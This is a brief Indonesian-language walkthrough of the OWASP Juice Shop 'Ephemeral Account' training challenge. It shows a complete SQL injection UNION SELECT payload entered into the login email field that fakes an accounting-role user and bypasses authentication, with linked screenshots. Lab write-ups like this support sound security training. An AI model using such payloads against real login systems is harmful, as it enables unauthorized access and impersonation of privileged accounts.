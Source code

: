 # Ephemeral Account

Link Resource: https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

### Jawaban

1. Mencari tahu bagaimana database untuk users
<img width="1838" height="1038" alt="image" src="https://github.com/user-attachments/assets/5ebb5a46-dcd8-4e20-a839-bef21adcad80" />

2. Membuat payload `' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--` lalu dimasukkan ke bagian email dan login berhasil tanpa perlu register
<img width="1820" height="1035" alt="image" src="https://github.com/user-attachments/assets/fa2e797c-5d45-44f0-80b1-fc8cb4af7a53" />

<img width="894" height="837" alt="image" src="https://github.com/user-attachments/assets/3449aef9-5ccc-448f-b290-8a04bb817286" />

